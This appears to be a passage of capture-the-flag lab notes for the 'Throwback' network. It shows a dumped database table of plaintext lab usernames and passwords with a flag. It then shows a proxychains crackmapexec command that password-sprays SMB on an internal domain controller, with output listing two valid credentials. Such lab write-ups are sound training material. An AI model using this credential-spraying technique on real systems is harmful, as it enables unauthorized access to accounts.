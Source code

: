 ```mysql
+-------------------------+
| users                   |
+-------------------------+
1 row in set (0.001 sec)

MariaDB [timekeepusers]> SELECT * FROM users 
    -> ; 
+---------------+-------------------------------------------------+ 
| USERNAME      | PASSWORD                                        |
+---------------+-------------------------------------------------+
| spopy         | ilylily                                         |
| foxxr         | Fnfdsfdf49sA(2o1id                              |
| winterss      | rei0g0erggdfs(2o1id                             |
| daiban        | Bananas!                                        |
| blairej       | BlaireJ2020                                     |
| FLAG          | TBH{ac3f61048236fd398da9e2289622157e}           |
| daviesj       | FEFJdfjep302dojsdfsFSFD                         |
| horsemanb     | XZCFLDOSPfem,wefweop3202D                       |
| peanutbutterm | fi9sfjidsJXSVNSKXKNXSIOPfpoiewspf               |
| humphreyw     | fedw99fjpfdsjpjpfodspjofpjf99                   |
| jeffersd      | fDSOKFSDFLMmxcvmxz;p[p[dgp[edfjf99              |
| petersj       | owowhatsthisowoDarknessBestGirlowo123uwu");



 |
| foxxr         | ILoveAnimemes :3                                |
| daviesj       | efepjfjsdfjdsfpjopfdj4po                        |
| gongoh        | etregrokdfskggdf'fd4po                          |
| dosierk       | e2349efjsdsdfhgopfdj4po                         |
| murphyf       | PASSWORD                                        |
| jstewart      | e423jjfjdsjfsdj32                               |
+---------------+-------------------------------------------------+
18 rows in set (0.000 sec)


```

For the first set of users, same for the second but I manually remove the space between petersj and foxxr and then the FLAG entry.
```bash
awk '{print $2}' users.txt >> tbusers.txt 
```

Then I copied my wlOneFull.txt to tbpasses.txt and added all the password I had 

```bash
proxychains crackmapexec smb 10.200.102.117 -u tbusers.txt -p tbpasses.txt --continue-on-success
# Weirdly this is not the answer
SMB         10.200.102.117  445    THROWBACK-DC01   [+] THROWBACK.local\HumphreyW:securitycenter

SMB         10.200.102.117  445    THROWBACK-DC01   [+] THROWBACK.local\JeffersD:Throwback2020
```
